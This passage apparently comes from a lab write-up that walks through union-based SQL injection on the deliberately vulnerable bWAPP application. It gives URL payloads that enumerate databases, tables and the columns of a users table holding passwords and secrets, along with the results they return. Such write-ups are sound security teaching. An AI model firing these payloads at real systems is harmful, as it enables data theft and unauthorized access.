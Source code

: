 
Databases          |
------------------ |
information_schema |
bWAPP              |
mysql              |
performance_schema |
sys                |


The default database name for bWAPP is "bWAPP".

#### Enumerating Tables

Select table_schema and table_name from information_schema.tables:

{:style="overflow: auto; white-space: nowrap;"}
`?title=%27UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+--+&action=search`

This returns all tables for all databases. If you only want to show the tables in bWAPP, append a WHERE clause to the previous query:

{:style="overflow: auto; white-space: nowrap;"}
`?title=%27UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+WHERE+table_schema="bWAPP"--+&action=search`

Results:

Database | Table
---------|---------
bWAPP    | blog
bWAPP    | heroes
bWAPP    | movies
bWAPP    | users
bWAPP    | visitors

#### Enumerating Columns

Let's check out the **users** table. Select table_name and column_name from information_schema.columns where table_name is equal to "users":

{:style="overflow: auto; white-space: nowrap;"}
`?title=%27UNION+SELECT+1,table_name,3,column_name,5,6,7+FROM+information_schema.columns+WHERE+table_name="users"--+&action=search`


Results:

Table | Column
------|--------------------
users | id
users | login
users | password
users | email
users | secret
users | activation_code
users | reset_code
users | admin
users | USER
users | CURRENT_CONNECTIONS
users | TOTAL_CONNECTIONS
